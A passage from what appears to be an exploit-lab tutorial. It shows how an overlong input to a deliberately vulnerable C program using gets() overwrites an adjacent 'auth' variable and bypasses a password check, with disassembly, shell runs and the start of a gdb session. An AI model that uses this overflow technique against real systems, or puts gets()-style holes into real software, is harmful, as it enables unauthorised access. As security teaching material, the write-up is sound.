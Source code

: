 ```
  4011f0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011f5:	5d                   	pop    %rbp
  4011f6:	c3                   	ret
...
```

We can see that variable `auth` can be found right after `buffer` in the memory layout:

```
...
  40115e:	c7 45 fc 00 00 00 00 	movl   $0x0,-0x4(%rbp) # auth
...
  40116f:	48 8d 45 f2          	lea    -0xe(%rbp),%rax # buffer
...
```

This is the first vulnerability we can exploit. We know that `buffer` is 10 characters (bytes) long so if we provide more than that we will overwrite `auth`.

No overflow (9 characters + NULL terminator which is automatically appended by `gets()`):

```
$ echo "012345678" | ./build/bof-server
enter the password:
wrong password
```

Overflow (10 character + NULL terminator):

```
$ echo "0123456789" | ./build/bof-server
enter the password:
wrong password
```

Note that in the case above we are already overwriting `auth` but with a NULL terminator (which is 0 in memory) so `if(auth)` still fails.

Overflow (11 character + NULL terminator):

```
$ echo "0123456789a" | ./build/bof-server
enter the password:
wrong password
authenticated
your files:
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	README.md  target
```
Now we managed to overwrite `auth` with a non-zero value so we get authenticated even though we provide a wrong password.

We can verify this using `gdb`:

```
$ gdb build/bof-server
GNU gdb (GDB) Fedora Linux 13.2-6.fc38
...
(gdb) b main
Breakpoint 1 at 0x4011eb: file lab/bof-server.c, line 41.
(gdb) r
Starting program: /home/gemesa/git-repos/exploit-lab/build/bof-server
...
Breakpoint 1, main () at lab/bof-server.c:41
41	    authenticate();
Missing separate debuginfos, use: dnf debuginfo-install glibc-2.37-14.fc38.x86_64
(gdb) disas
Dump of assembler code for function main:
   0x00000000004011e7 <+0>:	push   %rbp
   0x00000000004011e8 <+1>:	mov    %rsp,%rbp
=> 0x00000000004011eb <+4>:	call   0x401156 <authenticate>
```